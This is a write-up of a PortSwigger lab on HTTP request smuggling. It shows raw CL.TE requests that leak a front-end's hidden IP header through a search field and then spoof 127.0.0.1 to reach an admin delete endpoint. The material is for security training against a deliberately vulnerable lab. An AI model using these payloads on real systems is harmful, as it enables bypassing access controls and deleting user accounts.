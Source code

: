 # [Lab: Exploiting HTTP request smuggling to reveal front-end request rewriting](https://portswigger.net/web-security/request-smuggling/exploiting/lab-reveal-front-end-request-rewriting)

## Lab

This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

There's an admin panel at `/admin`, but it's only accessible to people with the IP address 127.0.0.1. The front-end server adds an HTTP header to incoming requests containing their IP address. It's similar to the `X-Forwarded-For` header but has a different name.

To solve the lab, smuggle a request to the back-end server that reveals the header that is added by the front-end server. Then smuggle a request to the back-end server that includes the added header, accesses the admin panel, and deletes the user `carlos`.

## Detect

- burpsuite active scan: detected http request smuggling after 5 minutes
- burpsuite `HTTP request smuggler` extension: detected CL.TE
- smuggler.py: `[tabprefix1]   : Potential CLTE Issue Found`

## Analysis

Path `/admin` is blocked:

  ```http
  GET /admin HTTP/1.1

  HTTP/1.1 401 Unauthorized

  Admin interface only available if logged in as an administrator, or if requested from 127.0.0.1
  ```

try to smuggling:

- 1:

  ```http
  POST / HTTP/1.1^M$
  Host: 0ad600ee044fe391c03da93100ff00ab.web-security-academy.net^M$
  Content-Type: application/x-www-form-urlencoded^M$
  Content-Length: 95^M$
  tRANSFER-ENCODING: chunked^M$
  ^M$
  0^M$
  ^M$
  GET /admin HTTP/1.1^M$
  Host: localhost^M$
  Content-Length: 80^M$
  X-Forwarded-For: 127.0.0.1^M$
  ^M$
  x=
  ```

- 2:

  ```http
  GET / HTTP/1.1^M$
  Host: 0ad600ee044fe391c03da93100ff00ab.web-security-academy.net^M$
  ^M$

  HTTP/1.1 401 Unauthorized

  Admin interface only available if logged in as an administrator, or if requested from 127.0.0.1
  ```

search function:

```http
POST / HTTP/1.1
Host: 0ad600ee044fe391c03da93100ff00ab.web-security-academy.net

search=hacked
abasdfe

HTTP/1.1 200 OK

<h1>0 search results for 'hacked
abasdfe
'</h1>
```

## Solutions

1. use smuggling with search function to find the hidden header added at frontend:

    ```http
    POST / HTTP/1.1^M$
    Host: 0ad600ee044fe391c03da93100ff00ab.web-security-academy.net^M$
    Content-Type: application/x-www-form-urlencoded^M$
    Content-Length: 101^M$
    tRANSFER-ENCODING: chunked^M$
    ^M$
    0^M$
    ^M$
    POST / HTTP/1.1^M$
    Content-Type: application/x-www-form-urlencoded0^M$
    Content-Length: 80^M$
    ^M$
    search=
    ```

    ```http
    GET / HTTP/1.1
    Host: 0ad600ee044fe391c03da93100ff00ab.web-security-academy.net

    HTTP/1.1 200 OK

    <h1>0 search results for 'GET / HTTP/1.1
    X-lrzVyq-Ip: 27.76.202.160
    Host: 0ad600ee044fe391c03da93'</h1>
    ```

    => hidden header `X-lrzVyq-Ip`

2. use this header to bypass localhost

    - first try:

      ```http
      GET /admin HTTP/1.1
      Host: 0ad600ee044fe391c03da93100ff00ab.web-security-academy.net
      X-lrzVyq-Ip: 127.0.0.1

      HTTP/1.1 400 Bad Request

      {"error":"Duplicate header names are not allowed"}
      ```

    - use smuggling, because the `X-lrzVyq-Ip` is only added to each request at frontend, therefore the smuggled request won't get error `Duplicate header names are not allowed`:

      ```http
      POST / HTTP/1.1^M$
      Host: 0ad600ee044fe391c03da93100ff00ab.web-security-academy.net^M$
      Content-Type: application/x-www-form-urlencoded^M$
      Content-Length: 147^M$
      tRANSFER-ENCODING: chunked^M$
      ^M$
      0^M$
      ^M$
      GET /admin/delete?username=carlos HTTP/1.1^M$
      X-lrzVyq-Ip: 127.0.0.1^M$
      Content-Type: application/x-www-form-urlencoded0^M$
      Content-Length: 80^M$
      ^M$
      x=
      ```

      ```http
      GET / HTTP/1.1
      Host: 0ad600ee044fe391c03da93100ff00ab.web-security-academy.net

      ```

solved
